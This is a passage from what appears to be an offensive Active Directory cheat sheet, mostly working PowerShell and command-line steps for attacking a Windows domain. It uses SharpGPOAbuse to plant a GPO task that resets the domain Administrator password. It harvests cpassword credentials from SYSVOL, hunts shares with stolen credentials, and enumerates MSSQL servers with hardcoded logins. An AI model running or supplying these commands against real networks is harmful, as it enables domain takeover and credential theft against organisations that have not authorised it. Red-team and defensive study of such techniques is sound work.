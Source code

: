 #### <a name='shoot-priv-machines'></a>shoot-priv-machines

Privileged Machines

```powershell
# find any machine accounts in privileged groups
Get-DomainGroup -AdminCount -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn | Get-NetGroupMember -Recurse -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn | ?{$_.MemberName -like '*$'}
```

#### <a name='shoot-gpo'></a>shoot-gpo
```
# list sysvol
ls \\$zdom_fqdn\SYSVOL\$zdom_fqdn\Policies\

# SharpGPOAbuse
SharpGPOAbuse.exe --AddComputerTask --Taskname "Update" --Author $zdom_fqdn\$ztarg_user_name --Command "cmd.exe" --Arguments "/c net user Administrator Password!@# /domain" --GPOName "ADDITIONAL DC CONFIGURATION"

# find cpassword
findstr /S /I cpassword \\$zdom_fqdn\sysvol\$zdom_fqdn\policies\*.xml
Get-GPPPassword.ps1
```

#### <a name='shoot-shares'></a>shoot-shares

T1135 Network Shares

References:
- [https://attack.mitre.org/techniques/T1135](https://attack.mitre.org/techniques/T1135/)

```powershell
# find share folders in the domain
Invoke-ShareFinder -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn

# use alternate credentials for searching for files on the domain
#   Find-InterestingDomainShareFile == old Invoke-FileFinder
Find-InterestingDomainShareFile -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn -Credential $zlat_creds
```

#### <a name='shoot-mssql-servers'></a>shoot-mssql-servers
Txxx MSSQL servers

References:
- [BloodHound Edge SQLAdmin](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#sqladmin)
- [PowerUpSQL CheatSheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet)

```powershell
# Invoke-UserHunter -UserIdentity dba_admin > mssql_instances_shorted.txt
# sed 's/MSSQLSvc\/\([a-z,A-Z,0-9]*\)\(\.contoso\.corp:\|:\)\?\(.*\)/\1/g' mssql_instances_shorted.txt | sort -u > mssql_servers_shorted.txt
# get-content mssql_servers_shorted.txt | get-netcomputer -Identity $_ -properties cn,description,OperatingSystem,OperatingSystemVersion,isCriticalSystemObject

 Get-SQLInstanceDomain -Verbose -DomainController $zdom_dc_fqdn -Username CONTOSO\mssql_admin -password Password01 > mssql_instances.txt
```
